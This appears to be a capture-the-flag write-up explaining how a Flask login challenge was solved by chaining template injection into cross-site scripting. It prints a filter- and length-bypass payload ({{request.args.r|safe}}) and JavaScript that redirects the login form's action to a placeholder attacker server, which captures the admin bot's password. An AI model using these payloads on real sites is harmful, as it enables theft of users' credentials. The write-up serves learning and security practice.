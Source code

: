 ![image](https://user-images.githubusercontent.com/64314534/234607512-23006716-acb8-4149-86f8-4e0532e85e6d.png)

When we enter the challenge we will find a simple login page with a number of failed logins

<br>

![image](https://user-images.githubusercontent.com/64314534/234608009-f52b5e94-ec1c-4a0d-a5ca-227bbe8f79b5.png)

after trying a simple creds   `admin:admin`

we will got : `wrong username or password` and the number of failed login has been increased .

# Let's review the code  (Flask)
<br>

![image](https://user-images.githubusercontent.com/64314534/234610042-578eb5ff-8b3b-44e3-ac9d-1d04adf110e0.png)

<br>

The code is very simple let's divde it into pieces to explain it 

### First part : 
<br>

![image](https://user-images.githubusercontent.com/64314534/234610860-54a13eeb-b6f7-4960-ae89-0d3a257667a2.png)

<br>

The application import some libraries like Flask , escape and render_template_string (keep in mind that this function is vulnerable to ssti) and then there is an html template which had a variable called fails and also a place for a string 


<br>



### Second part :
<br>

![image](https://user-images.githubusercontent.com/64314534/234611740-25594be1-a173-4e42-9542-c3400257dde4.png)

<br>

The get route of the index is doing the following : 

- get the fails variable which had the number of failed logins 
- check if there is a parameter called message and then check if it's length is equal or greater than 25 and if this it will send the index page with the number of fails
- if the message param's length less than 25 it will pass the message to the escape() function which will filtered it against xss then it will render the template and append the message to it in the place of string (format string) and this will cause an ssti vulnerability
- but the flag is not in this server so , we don't need to get RCE or something 

### Third part :
<br>

![image](https://user-images.githubusercontent.com/64314534/234614375-161e31e3-e654-4f5f-a306-184395c48c6f.png)

<br>

this is the login function and it's broken as we can see it's not working, just increasing the number of failed logins

### The bot code 
<br>

![image](https://user-images.githubusercontent.com/64314534/234615117-8b579722-bcf2-4c97-a2ae-1232d95ee3f2.png)


<br>

As we can see from the selected parts the bot logins with the username:admin and the password : flag 
so, we need to get xss to change the form action and get the password which is the flag : D

i opened my burp suite to do some debugging with the ssti 

<br>

![image](https://user-images.githubusercontent.com/64314534/234615966-57a7de01-732b-4ac0-99d3-ee4bf3c92a51.png)

![image](https://user-images.githubusercontent.com/64314534/234616110-df9aa7c2-c4c9-4f59-959e-b00b2ee57e8e.png)


<br>

As you see we can confirm that the message parameter is not vulnerable to Xss but vulnerable to ssti, TBH iam not very good at flask templates but i know there is something called jinja2 filters (flask using jinja2 as a template engine)

Ex : {{thing|filter}}   : {{-123456|abs}} will return 123456 (the absolute value of the number)

after searching in jinja2 filters i found that `safe` filter will prevent the element from being escaped 
<br>

![image](https://user-images.githubusercontent.com/64314534/234619129-867a7228-a749-4967-84bf-49bc06ec30ac.png)

![image](https://user-images.githubusercontent.com/64314534/234619458-93d34009-d11c-4c68-aa8f-a32d9f019463.png)

Still we had the length problem so we can refer to another parameter to bypass the length by this payload : {{request.args.r}} 

- Final payload : {{request.args.r|safe}}

<br>

![image](https://user-images.githubusercontent.com/64314534/234620142-6198e5f4-22da-42db-8e34-81f5770779b0.png)

<br>
and we now bypassed all filters for this challenge let's see how we can edit the form action to be our server we can use this simple js code 


`<script>document.forms[0].action='https://ourserver'</script>`

<br>
But after i tried it in the browser i got this error in the console : 
<br>

![image](https://user-images.githubusercontent.com/64314534/234620959-5366f456-f7df-4049-b774-f01a1201d425.png)

<br>

Do you know why ?? Because the script is executed before the login form is loaded. so we will make a quick modify to our script :

window.onload =function(){document.forms[0].action="http://our_server"};
<br>

and i got the flag : ) 

<br>

![image](https://user-images.githubusercontent.com/64314534/234622519-3465bb6e-25ba-461b-845f-b3cbb87cbe17.png)


